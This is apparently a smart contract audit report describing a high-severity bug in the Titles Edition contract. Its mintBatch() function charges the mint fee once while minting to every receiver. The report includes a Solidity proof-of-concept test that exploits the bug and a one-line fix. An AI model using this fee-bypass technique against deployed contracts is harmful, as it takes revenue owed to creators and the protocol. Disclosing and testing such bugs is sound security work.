 Breezy Lemonade Shark

high

# `mintBatch()` can be used to skip minting fees

## Summary

One of the variants of `mintBatch()` can be used to mint the same token id to multiple receivers. However, the mint fee is collected once, allowing to bypass fees when more than one receiver is specified.

## Vulnerability Detail

This variant of the mint function is intended to mint the given amount of a specific token id to multiple receivers.

```solidity
function mintBatch(
    address[] calldata receivers_,
    uint256 tokenId_,
    uint256 amount_,
    bytes calldata data_
) external payable {
    // wake-disable-next-line reentrancy
    FEE_MANAGER.collectMintFee{value: msg.value}(
        this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
    );

    for (uint256 i = 0; i < receivers_.length; i++) {
        _issue(receivers_[i], tokenId_, amount_, data_);
    }

    _refundExcess();
}
```

The implementation collects the minting fee for the given amount of tokens to be minted, but ignores that this operation will mint that amount of tokens to each receiver.

This allows anyone to mint an arbitrary amount of tokens by specifying multiple receivers, and just paying a single mint fee.  

## Proof of Concept

```solidity
function test_mint_batch_skip_fees() public {
    Edition edition = new Edition();
    FeeManager feeManager = new FeeManager(address(0xdeadbeef), address(0xc0ffee), address(new MockSplitFactory()));
    TitlesGraph graph = new TitlesGraph(address(this), address(this));

    edition.initialize(
        feeManager,
        graph,
        address(this),
        address(this),
        Metadata({label: "Test Edition", uri: "ipfs.io/test-edition", data: new bytes(0)})
    );

    // publish token
    uint256 tokenId = edition.publish(
        address(1), // creator
        10, // maxSupply
        0, // opensAt
        0, // closesAt
        new Node[](0), // attributions
        Strategy({
            asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
            mintFee: 0.01 ether,
            revshareBps: 2500, // 25%
            royaltyBps: 250 // 2.5%
        }),
        Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
    );

    // Normally done by the TitlesCore, but we're testing in isolation
    feeManager.createRoute(edition, tokenId, new Target[](0), address(0));

    // get mint fee
    uint256 mintFee = edition.mintFee(tokenId);

    address minter = makeAddr("minter");
    address receiver1 = makeAddr("receiver1");
    address receiver2 = makeAddr("receiver2");

    address[] memory receivers = new address[](2);
    receivers[0] = receiver1;
    receivers[1] = receiver2;

    vm.deal(minter, 1 ether);

    // even though amount here is 1, we specify two receivers (meaning two mints) and submit fees for just one mint
    vm.prank(minter);
    edition.mintBatch{value: mintFee}(receivers, tokenId, 1, "");

    // two tokens have been minted by paying just 1 mint
    assertEq(edition.balanceOf(receiver1, tokenId), 1);
    assertEq(edition.balanceOf(receiver2, tokenId), 1);
}
```

## Impact

The impact is critical, as it effectively allows any caller to skip the minting fee.

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304-L320

## Tool used

Manual Review

## Recommendation

When collecting the fee, multiply the `amount_` with the length of the `receivers_` array to account for all mints.

```solidity
FEE_MANAGER.collectMintFee{value: msg.value}(
    this, tokenId_, amount_ * receivers_.length, msg.sender, address(0), works[tokenId_].strategy
);
```

